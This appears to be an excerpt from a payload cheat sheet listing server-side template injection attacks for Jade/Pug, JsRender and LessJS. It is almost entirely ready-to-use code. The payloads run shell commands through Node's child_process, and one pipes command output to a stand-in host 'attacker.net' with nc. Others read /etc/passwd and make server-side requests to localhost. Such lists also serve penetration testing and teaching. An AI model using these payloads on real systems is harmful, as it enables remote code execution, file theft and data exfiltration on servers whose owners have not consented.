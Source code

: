 #### Jade/Codepen

Command execution

```js
var x = root.process

x = x.mainModule.require

x = x('child_process')

x.exec('id | nc attacker.net 80')
```

```js
#{root.process.mainModule.require('child_process').spawnSync('cat', ['/etc/passwd']).stdout}
```

#### JsRender

Command execution

```js
{{:"pwnd".toString.constructor.call({},"return global.process.mainModule.constructor._load('child_process').execSync('id').toString()")()}}
```

#### LessJS

SSRF (Server-side Request Forgery)

```js
@import (inline) "http://localhost";
```

Read file

```js
@import (inline) "/etc/passwd";
```

Command execution

< v3

```js
body {
  color: `global.process.mainModule.require("child_process").execSync("id")`;
}
```

Plugins

(< v2)

```js
functions.add('cmd', function(val) {
  return `"${global.process.mainModule.require('child_process').execSync(val.value)}"`;
});
```
